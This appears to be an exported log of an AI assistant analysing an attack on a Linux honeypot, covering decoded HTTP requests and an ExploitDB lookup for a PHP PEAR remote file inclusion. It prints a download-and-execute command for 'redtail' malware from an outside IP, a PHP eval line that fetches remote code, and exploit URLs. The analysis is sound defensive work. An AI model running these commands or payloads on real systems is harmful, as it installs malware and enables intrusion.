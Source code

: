
# Run Steps: Attack: 30d72557f4e8b64fba88e86ce784ac08339fca517863f30d194830c90ff72a01
**Assistant ID:** `asst_R5O9vhLKONwNlqmmxbMYugLo`

**Thread ID:** `thread_baNyej17g18vm1lvhpIJ9KDs`


<details>
<summary>
<h3>System Prompt</h3>
</summary>

> `Your role is to answer questions about an attack on a Linux honeypot. You will analyze the commands executed, uploaded/downloaded files, HTTP requests, sessionsand other data logged during the attack to understand the methods and goals of the attacker.You will also analyze OSINT data gathered about the attacking IP(s) including: geolocation, open ports, running services, threatfeed reports and reports of known malware associated with the IP(s) to get additional context on the attack and enhance your analysis. Your answers will be used in a GitHub .md file so you should use markdown syntax to format your output. Use the available functions to request relevant information to thoroughly answer each question. You should use multiple function calls to analyze the data returned by previous function calls and to get any additional data you need to answer each question as accurately as possible. For example if you see that the attacker downloaded malware in one of the commands executed, you should use the get_attack_attrs function with the arguement 'uniq_malware' to get a list of unique malware_ids associated with the attack, then use get_malware_attrs to analyze the malware, and the query_ functions to get additional OSINT data about the malware and its source. IMPORTANT: When using get_attack_attrs use the uniq_<attr> modifier first and only get all values if necessary after analyzing the unique values. For context that the honeypot system has the following open ports: Port 80: Web server running Apache httpd 3.2.3 and WordPress 5.6.7 Port 8080: Web server running Apache httpd 3.2.3 and WordPress 5.6.7  Its internal IP address is: 172.31.5.68 and its external IP address is: 54.67.87.80. Use Python when needed to enhance your analysis. For example if you find an encoded string in the http_requests, commands, or malware, you should write and execute code to decode it, then analyze the decoded result in context when answering questions.`

</details>

---


## Prompt: which exploit is being used?

**Run ID:** `run_LNQujd0nhsYp2wYqhE9FP2kU`

### Funciton Calls
**Step ID:** `step_PtcY75RhTOVea60LafsDJViN`

**Function called:** `get_attack_attrs`

| Argument | Value |
| --- | --- |
| `attrs` | `['commands']` |

| Output | Value |
| --- | --- |
| `commands` | `[]` |


<details>
<summary>
<h3>Answer</h3>
</summary>

It seems that there are no commands logged in the data provided for the attack on the Linux honeypot. Without command logs, it's not possible to determine if a specific exploit is being used based on the command execution.

If you have any more data, such as HTTP requests, file uploads, or sessions that could hint at an exploit being used, please provide that data for further analysis. Otherwise, if there is a specific text snippet, code, or string that could be associated with an exploit, I could search the ExploitDB for potential matches.
</details>

---


## Prompt: look at the http requests and try to decode the attack and determine the exploit used

**Run ID:** `run_Tn2ypv4Ni2VjC6tIsVtM8Bv1`

<details>
<summary>
<h3>Answer</h3>
</summary>

By analyzing the decoded commands extracted from the HTTP requests found in the attack on the Linux honeypot, we can determine the exploit used by the attacker. Here are the decoded commands:

1. Command 1:
   - **Command**: `mkdir -p /tmp/$(whoami) && cd /tmp/$(whoami); wget http://45.95.147.236/download/redtail.x86_64; curl -O http://45.95.147.236/download/redtail.x86_64; rm -rf .redtail; mv redtail.x86_64 .redtail; chmod +x .redtail; ./.redtail`
   - **Description**: This command creates a directory in `/tmp` using the current user's name, downloads a file `redtail.x86_64` from a remote server (hosted at IP address 45.95.147.236), renames the downloaded file, makes it executable, and executes it.

2. Command 2 and 3:
   - **Commands**: 
     - ```
       if(filter_var(ini_get("allow_url_fopen"),FILTER_VALIDATE_BOOLEAN)){eval(file_get_contents("http://93.123.39.76/x"));}
       else{$h=curl_init("http://93.123.39.76/x");curl_setopt($h,CURLOPT_RETURNTRANSFER,1);curl_setopt($h,CURLOPT_HEADER,0);eval(curl_exec($h));curl_close($h);}
       ```
   - **Description**: These commands check if `allow_url_fopen` is enabled in the PHP configuration. If it is enabled, they fetch and evaluate the content from a remote URL `http://93.123.39.76/x` using `file_get_contents`. If `allow_url_fopen` is disabled, they use cURL to fetch the content and then evaluate it.

Based on the decoded commands, it appears that the attacker is attempting to download and execute a malicious file `redtail.x86_64` from remote servers. Additionally, the attacker is exploiting the ability to execute arbitrary code in PHP by using functions like `eval` to fetch and execute remote code.

These actions indicate a potential exploit that involves downloading and executing malicious files, as well as leveraging PHP functions to execute arbitrary commands. The attacker is likely attempting to gain unauthorized access or perform malicious activities on the compromised system.
</details>

---


## Prompt: what exploit is being used? Try searching for values in the http requests like pearcmd until you find the exploit used.

**Run ID:** `run_4mMkh2nqvQ6VhFkAs6SaZSA3`

### Funciton Calls
**Step ID:** `step_hFa4Jq9xh55jzEAp8blXWlhD`

**Function called:** `search_exploitdb`

| Argument | Value |
| --- | --- |
| `search_text` | `pearcmd` |

| Output | Value |
| --- | --- |
| `pearcmd` | `{'exploitdb': [{'exploit_id': '11442', 'title': 'PHP PEAR 1.9.0 - Multiple Remote File Inclusions', 'type': 'webapps', 'platform': 'PHP', 'date_published': '2010-02-14'}]}` |


<details>
<summary>
<h3>Answer</h3>
</summary>

The search for the term "pearcmd" in the ExploitDB database has returned an exploit with the following details:

- **Exploit ID**: 11442
- **Title**: PHP PEAR 1.9.0 - Multiple Remote File Inclusions
- **Type**: webapps
- **Platform**: PHP
- **Date Published**: 2010-02-14

Based on this information, the exploit related to the "pearcmd" value found in the HTTP requests is the PHP PEAR 1.9.0 - Multiple Remote File Inclusions exploit. The attacker is likely leveraging this exploit to perform remote file inclusions and execute unauthorized code on the targeted system.

This exploit allows an attacker to include remote files and potentially execute malicious code, leading to unauthorized access and potential security risks on the vulnerable system.
</details>

---


## Prompt: how does the exploit work?

**Run ID:** `run_dh6BEkPOaX5MszVlw62mjtxz`

### Funciton Calls
**Step ID:** `step_BChjUrsmeDndxIezwbDPatff`

**Function called:** `get_exploitdb_exploit`

| Argument | Value |
| --- | --- |
| `exploit_id` | `11442` |

| Output | Value |
| --- | --- |
| `11442` | `{'exploitdb': "###########################################################\r\n###\r\n### PEAR v.1.9.0 Multiple Remote File Inclusion Vulnerability\r\n##\r\n###########################################################\r\n###     PEAR, the PHP Extension and Application Repository\r\n###\r\n###     * @package        PEAR\r\n###     * @Version        v.1.9.0\r\n###     * @license        http://opensource.org/licenses/bsd-license.php New BSD License\r\n###     * @link           http://pear.php.net/package/PEAR\r\n###\r\n###########################################################\r\n###\r\n###     Type :  Remote File Inclusion Vulnerability\r\n###     Author: eidelweiss\r\n###     Date  : 2010-02-14\r\n###     Location:       Indonesia ( http://yogyacarderlink.web.id )\r\n###     Contact:        g1xsystem [at] windowslive [dot] com\r\n###     Greetz : AL-MARHUM - YOGYACARDERLINK TEAM - (D)eal (C)yber\r\n###\r\n###########################################################\r\n###\r\n###     Vuln:   if ('../DIRECTORY_SEPARATOR/PEAR' != '@'.'include_path'.'@') {\r\n###                     ini_set('include_path', '../DIRECTORY_SEPARATOR/PEAR');\r\n###                     $raw = true;\r\n###             }\r\n###             @ini_set('allow_url_fopen', true);\r\n###             if (!ini_get('safe_mode')) {\r\n###             @set_time_limit(0);\r\n###             }\r\n###     $_PEAR_PHPDIR = '#$%^&*';\r\n###             define('PEAR_RUNTYPE', 'pecl');\r\n###             require_once 'pearcmd.php';\r\n###             require_once 'PEAR.php';\r\n###             require_once 'PEAR/Frontend.php';\r\n###             require_once 'PEAR/Config.php';\r\n###             require_once 'PEAR/Command.php';\r\n###             require_once 'Console/Getopt.php';\r\n###     =========================================================\r\n###     exploit:        http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?include_path=[Shell.txt?]\r\n###             http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?_PEAR_PHPDIR =[Shell.txt?]\r\n###########################################################\n            "}` |


<details>
<summary>
<h3>Answer</h3>
</summary>

The exploit related to the PHP PEAR 1.9.0 - Multiple Remote File Inclusion vulnerability works by exploiting a weakness in the PEAR (PHP Extension and Application Repository) version 1.9.0. Here is an overview of how the exploit works:

- **Vulnerability Type**: Remote File Inclusion
- **Author**: eidelweiss
- **Date**: 2010-02-14
- **Location**: Indonesia
- **Contact**: g1xsystem [at] windowslive [dot] com

### Vulnerability Details:
The vulnerability in the PEAR package allows an attacker to remotely include and execute arbitrary files on the target system. The vulnerable code snippet in PEAR that can be exploited is as follows:
```php
if ('../DIRECTORY_SEPARATOR/PEAR' != '@'.'include_path'.'@') {
    ini_set('include_path', '../DIRECTORY_SEPARATOR/PEAR');
    $raw = true;
}
@ini_set('allow_url_fopen', true);
if (!ini_get('safe_mode')) {
    @set_time_limit(0);
}
$_PEAR_PHPDIR = '#$%^&*';
define('PEAR_RUNTYPE', 'pecl');
require_once 'pearcmd.php';
require_once 'PEAR.php';
require_once 'PEAR/Frontend.php';
require_once 'PEAR/Config.php';
require_once 'PEAR/Command.php';
require_once 'Console/Getopt.php';
```
### Exploit:
The attacker can exploit the vulnerability by crafting specific requests to the target system. This includes accessing vulnerable URLs on the target server to execute potentially malicious code. The exploit URLs typically take the following form:
- `http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?include_path=[Shell.txt?]`
- `http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?_PEAR_PHPDIR =[Shell.txt?]`

By manipulating the `include_path` or `_PEAR_PHPDIR` parameters in the URLs, the attacker can include remote files containing malicious code (e.g., `Shell.txt`) and potentially gain unauthorized access or perform malicious actions on the target system.

This exploit demonstrates the risk posed by the vulnerability in the PEAR package, allowing attackers to exploit remote file inclusions and execute arbitrary code on the affected system.
</details>

---

